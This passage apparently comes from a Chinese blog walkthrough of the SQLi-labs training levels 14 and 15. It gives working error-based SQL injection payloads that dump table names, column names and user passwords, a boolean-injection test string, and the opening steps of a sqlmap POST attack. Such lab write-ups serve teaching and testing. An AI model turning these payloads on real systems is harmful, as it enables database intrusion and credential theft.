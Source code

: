 
爆破表

```cobol
1" or extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='security')))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/59db871a15168f3fc94d1284b0860b14.png" alt="" style="max-height:222px; box-sizing:content-box;" />


爆破字段

```cobol
1" or extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database())))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/84e13fc06d3203fe7696380c6f569c35.png" alt="" style="max-height:166px; box-sizing:content-box;" />


爆破值

```scss
1" or extractvalue(1,concat(0x7e,(select concat(id,username,password)from security.users limit 0,1)))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b26b98fadd2a65faf40c6813a76acd50.png" alt="" style="max-height:128px; box-sizing:content-box;" />


最后修改 limit x,1即可

## Less-15 post类型的sqlmap

发现没有任何报错信息 只有成功和失败 那么就是 布尔注入

```vbnet
1' or 1=1-- +
```

那么就可以使用length()->ascii()->substr()来实现布尔注入

这里主要演示 POST类型的SQLMAP

首先输入账号密码（随便）进行抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/5c71413b4cde651e41592afe27143ed7.png" alt="" style="max-height:390px; box-sizing:content-box;" />




> 右键->copy to file

保存到sqlmap的目录下
